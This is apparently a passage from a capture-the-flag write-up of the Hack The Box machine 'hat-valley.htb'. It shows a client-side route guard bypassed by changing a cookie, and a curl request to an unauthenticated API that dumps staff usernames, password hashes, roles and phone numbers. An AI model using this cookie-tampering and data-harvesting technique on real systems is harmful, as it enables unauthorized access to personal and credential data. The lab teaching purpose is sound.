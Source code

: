 
## Token validation

Looking at the source in webpack, it looks like the router just looks if the cookie has token == guest.  
If not no further validation is done, it just needs to not be guest.
```js
router.beforeEach((to, from, next) => {
  if((to.name == 'leave' || to.name == 'dashboard') && VueCookieNext.getCookie('token') == 'guest') { //if user not logged in, redirect to login
    next({ name: 'hr' })
  }
  else if(to.name == 'hr' && VueCookieNext.getCookie('token') != 'guest') { //if user logged in, skip past login to dashboard
    next({ name: 'dashboard' })
  }
  else {
    next()
  }
})
```

So we oblige by setting the cookie to token == whatever and get to a dashboard.  
The dashboards has website metrics, and a feature that checks if the online store is up, and a section called staff details, that is empty for this user. 
There's also a separate page with a feature for employees to post leave requests.


Looking at the webpack, we find client side code to fetch staff details from the api:
```js
import axios from 'axios'
axios.defaults.withCredentials = true
const baseURL = "/api/"

const staff_details = () => {
    return axios.get(baseURL + 'staff-details')
        .then(response => response.data)
}

export default {
    staff_details
}
```

So we can start hitting that endpoint to see what happens:  
apparently the api endpoint itself doesn't even need any kind of auth
```bash
curl -s "http://hat-valley.htb/api/staff-details" | jq .
```
```json
[
  {
    "user_id": 1,
    "username": "christine.wool",
    "password": "6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649",
    "fullname": "Christine Wool",
    "role": "Founder, CEO",
    "phone": "0415202922"
  },
  {
    "user_id": 2,
    "username": "christopher.jones",
    "password": "e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1",
    "fullname": "Christopher Jones",
    "role": "Salesperson",
    "phone": "0456980001"
  },
```